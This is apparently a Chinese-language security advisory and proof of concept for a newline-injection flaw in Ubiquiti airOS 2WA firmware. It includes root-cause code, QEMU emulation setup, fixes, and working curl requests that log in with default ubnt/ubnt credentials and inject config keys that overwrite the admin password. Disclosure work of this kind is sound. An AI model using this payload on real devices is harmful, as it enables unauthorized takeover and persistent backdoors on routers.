

# Ubiquiti 2WA airOS v8.7.12 - 配置注入漏洞（换行符注入）

## 概要

| 字段 | 内容 |
|---|---|
| **厂商** | Ubiquiti Inc. |
| **产品** | airOS (airMAX 2WA) |
| **版本** | v8.7.12.47627 (Build 240228.1553) |
| **类型** | CWE-93: CRLF 注入 |
| **严重性** | 高危 (CVSS 8.8) |
| **需要认证** | 是 |

`udapi/cfg.lua` 中的 `cfg.set()` 使用 `tostring()` 存储值时未过滤换行符。`cfg.save()` 以 `key=value\n` 格式写入 `/tmp/system.cfg`。值中的 `\n` 会将其拆分为独立配置条目，攻击者可通过认证后的 `/api/cfg` 端点注入任意配置键（管理员密码、服务开关等）。

---

## 根因

**cfg.lua:118** — 无换行过滤：
```lua
set = function(self, key, value)
  self.keyVal[key] = value and tostring(value)
end
```

**cfg.lua:337-338** — 换行导致行分裂：
```lua
for key, value in pairs(sorted_keys) do
  lines[#lines + 1] = key .. "=" .. value
end
```

**airos-api.lua:1704** — `partial_update` 仅检查 `type(value) ~= "string"`，未检查换行符。

---

## 复现步骤

### 环境

- QEMU: `qemu-system-mips 10.2.0`，`-cpu 74Kf`
- 内核: `vmlinux-3.2.0-4-4kc-malta` (Debian)
- 客户机: Debian Wheezy MIPS + 固件 chroot

### 启动 QEMU

```bash
qemu-system-mips -M malta -cpu 74Kf \
  -kernel vmlinux-3.2.0-4-4kc-malta \
  -hda debian_wheezy_mips_standard.qcow2 \
  -append "root=/dev/sda1 console=ttyS0" \
  -nographic -m 256 \
  -net nic -net user,hostfwd=tcp::8443-:443,hostfwd=tcp::8022-:22
```

> 必须使用 `-cpu 74Kf`，固件使用了 Atheros MIPS 74Kf DSP 扩展指令。

### 准备固件环境（Debian 虚拟机内）

```bash
# 复制固件，创建可写根文件系统
mkdir -p /mnt/fw_rw
cd /mnt/firmware && cp -a bin etc init lib mnt sbin usr var /mnt/fw_rw/
mkdir -p /mnt/fw_rw/{tmp,proc,dev,var/run,var/log,var/tmp,usr/www,tmp/.sessions}
cp /mnt/fw_rw/etc/system.cfg /mnt/fw_rw/tmp/system.cfg
chmod -R +x /mnt/fw_rw/{bin,sbin,usr/bin,usr/sbin,lib,usr/lib}

# 创建 board.info（值前不能有空格）
cat > /mnt/fw_rw/etc/board.info << 'EOF'
board.sysid=0xe812
board.name=2WA
board.hwaddr=00:27:22:AA:BB:CC
board.shortname=2WA
board.cpu=mips74k
board.fla=16777216
board.ram=67108864
board.vendor=ubnt
board.antennas=1
board.antenna.1.id=1
board.antenna.1.builtin=1
board.antenna.1.gain=10
EOF

# 生成 SSL 证书 + 配置 lighttpd
openssl genrsa -out /tmp/server.key 2048
openssl req -new -x509 -key /tmp/server.key -out /tmp/server.crt -days 365 -subj "/CN=UBNT"
cat /tmp/server.key /tmp/server.crt > /mnt/fw_rw/etc/server.pem

cat >> /mnt/fw_rw/etc/lighttpd/lighttpd.conf << 'CONF'
server.document-root = "/usr/www"
server.modules += ("mod_magnet", "mod_cgi")
server.modules += ("mod_openssl")
$SERVER["socket"] == ":443" {
  ssl.engine = "enable"
  ssl.pemfile = "/etc/server.pem"
}
CONF

# 进入 chroot
mount --bind /proc /mnt/fw_rw/proc
mount --bind /dev /mnt/fw_rw/dev
chroot /mnt/fw_rw /bin/sh
```

### 漏洞利用（chroot 内）

```bash
# 启动 lighttpd
lighttpd -f /etc/lighttpd/lighttpd.conf

# 1. 登录
curl -k -v -c /tmp/c.txt -X POST https://127.0.0.1:443/api/auth \
  -H "Content-Type: application/json" \
  -d '{"username":"ubnt","password":"ubnt"}' 2>&1 | grep CSRF
# -> X-CSRF-ID: <token>

# 2. 注入
curl -k -b /tmp/c.txt -X POST https://127.0.0.1:443/api/cfg \
  -H "Content-Type: application/json" \
  -H "X-CSRF-ID: <token>" \
  -d '{"keys":{"aaa.1.wpa.psk":"test\ninjected.evil=pwned\nusers.1.password=$1$xx$fakehash"}}'
# -> {"ok":true}

# 3. 验证
grep -E "injected|fakehash" /tmp/system.cfg
# -> injected.evil=pwned
# -> users.1.password=$1$xx$fakehash
```

---




## 影响

认证攻击者可注入任意配置键：

- `users.1.password` — 覆盖管理员密码（持久后门）
- `sshd.status=enabled` — 开启 SSH
- `httpd.https.status=disabled` — 降级为 HTTP
- PPPoE 凭据、SSID、路由、VLAN 等

结合默认凭据（`ubnt/ubnt`），大量已部署设备无需预知密码即可利用。

---

## 修复建议

1. 在 `cfg.set()` 中剥离 `\n`/`\r`
2. 在 `partial_update` 处理函数中拒绝控制字符
3. 添加 passphrase 验证（类似已有的 `validateSsid()`）
